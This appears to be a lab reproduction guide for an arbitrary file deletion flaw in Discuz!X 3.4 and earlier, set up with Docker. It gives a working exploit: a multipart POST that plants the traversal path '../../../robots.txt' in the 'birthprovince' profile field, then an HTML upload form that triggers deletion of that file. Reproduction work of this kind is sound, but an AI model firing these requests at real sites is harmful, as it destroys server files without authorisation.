

# Discuz!X ≤3.4 Arbitrary File Removal Vulnerability

Impact version: Discuz! X ≤ 3.4

Vulnerability details: https://lorexxar.cn/2017/09/30/dz-delete/

#Starting the environment

Execute the following command to deploy the Discuz!X installation environment.

```
Docker-compose up -d
```

When installing, just modify the database address to `db`, and keep the default:


# Vulnerability reproduction

Visit `http://your-ip/robots.txt` to see that robots.txt is there:



After registering the user, find your own forghash on the personal settings page:


Bring your own cookies and forghash to send the following packets:

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html, application/xhtml+xml, application/xml; q=0.9, image/webp, image/apng, */*; q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN, zh; q=0.8, en; q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

After the submission is successful, the birthplace on the user profile modification page will be displayed as shown in the following figure:


Explain that our dirty data has entered the database.

Then, create a new `upload.html`, the code is as follows, change the `[your-ip]` to the domain name of discuz, and change the `[form-hash]` to your forghash:

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

Open the page with a browser and upload a normal picture. At this point the dirty data should have been extracted and the vulnerability has been exploited.

Visit `http://your-ip/robots.txt` again and find that the file was successfully deleted:

